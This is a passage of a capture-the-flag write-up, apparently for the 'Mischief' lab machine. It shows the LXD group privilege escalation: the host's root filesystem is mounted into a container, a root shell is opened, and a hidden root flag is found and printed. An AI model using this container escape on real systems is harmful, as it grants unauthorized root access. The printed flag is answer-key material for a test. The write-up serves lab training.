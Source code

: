 ```
loki@Mischief:~$ lxc config device add yolo mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to yolo
loki@Mischief:~$ lxc start yolo
loki@Mischief:~$ lxc exec yolo /bin/bash
root@yolo:~# cd /mnt/root/root
root@yolo:/mnt/root/root# ls
root.txt
root@yolo:/mnt/root/root# cat root.txt
The flag is not here, get a shell to find it!
```

Looks like the flag is hidden somewhere else...

Let's find it:

```
root@yolo:/mnt/root/root# find /mnt/root -name root.txt 2>/dev/null
/mnt/root/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
/mnt/root/root/root.txt
```

There's another root.txt, let's see...

```
root@yolo:/mnt/root/root# cat /mnt/root/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
ae155fad479c56f912c65d7be4487807
```

Game over!
